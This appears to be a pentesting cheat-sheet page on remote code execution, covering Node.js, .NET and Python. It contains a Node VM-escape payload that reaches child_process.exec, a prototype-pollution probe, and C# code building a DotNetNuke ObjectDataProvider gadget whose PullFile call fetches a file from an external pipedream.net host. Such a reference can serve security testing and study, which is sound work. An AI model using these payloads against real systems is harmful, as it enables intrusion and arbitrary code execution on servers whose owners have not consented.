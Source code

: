 ```yaml
---
description: Helpful stuff
---
```


# Remote Code Execution

## Node js

**Bypassing / slashes**

```javascript
\\\\x2f
```

**Get object properties \(can be helpful in debugging\)**

```text
Object.getOwnPropertyNames(
```

**Node VM escape PoC**

```text
this.context.constructor.constructor('return process')().mainModule.require('child_process').exec('touch \\\\x2ftmp\\\\x2f11111')
```

**Proto pollution detection**

```text
{"constructor": {"prototype": {"a0": true}}}
```

## DotNet

For debugging purposes you can use dnSpy.  
IIS process, that is working with your [ASP.Net](http://asp.net/) code is w3wp.exe, so you should use it to attach.   
We then need to access Debug &gt; Windows &gt; Modules to list all the modules loaded by our w3wp.exe process.

What entry points to search for: 

```csharp
Cookies
HttpContext.Current.Request.IsAuthenticated
Request.getParameter
context.User = Thread.CurrentPrincipal
```

How you can fuzz app methods:

\(References **DotNetNuke.dll** and **PresentationFramework.dll**\)

```csharp
using System.IO;
using System.Xml.Serialization;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;

namespace DotNetExploit
{
    class MainClass
    {
        public static void Main(string[] args)
        { 
            Console.WriteLine("Hello World!");
            var myODP = new ObjectDataProvider();
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("<https://enp50ybm0r.x.pipedream.net>");
            myODP.MethodParameters.Add("POC");
            Console.WriteLine("Done!");
        }
    }
}
```

## Python

Look for vulnerable libraries by using snyk.io and ossindex



